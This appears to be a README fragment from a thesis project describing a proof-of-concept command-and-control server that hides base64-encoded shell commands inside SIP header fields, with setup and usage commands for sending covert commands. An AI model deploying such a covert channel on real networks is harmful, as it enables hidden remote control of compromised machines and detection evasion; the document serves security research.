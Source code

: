 ### 1. Custom X-Headers
```sip
X-Custom-Data: d2hvYW1p  # base64("whoami")
X-Session-ID: cHdk        # base64("pwd")
```

### 2. User-Agent Manipulation
```sip
User-Agent: FreeSWITCH-1.10.7 (cmd:d2hvYW1p)
```

### 3. Contact Parameter Injection
```sip
Contact: <sip:user@host;data=d2hvYW1p;transport=udp>
```

### 4. Via Branch Parameter
```sip
Via: SIP/2.0/UDP host;branch=z9hG4bKd2hvYW1p
```

## 🚀 Quick Start

### Prerequisites

- Python 3.6+
- Linux environment (tested on Ubuntu/Debian)
- Network access between test systems
- Optional: FreeSWITCH for full SBC testing

### Installation

1. **Clone the repository**:
   ```bash
   git clone https://github.com/a42437-ml/master_thesis_files.git
   cd master_thesis_files/c2c_server_poc
   ```

2. **Set up the environment**:
   ```bash
   chmod +x *.py
   pip3 install -r requirements.txt  # if needed
   ```

### Basic Usage

1. **Start the C2 Server**:
   ```bash
   python3 sip_c2_server.py --host 0.0.0.0 --port 5060 --verbose
   ```

2. **Send covert commands** (from another machine):
   ```bash
   python3 simple_sip_client.py -t <C2_SERVER_IP> -c "whoami" --technique header
   ```
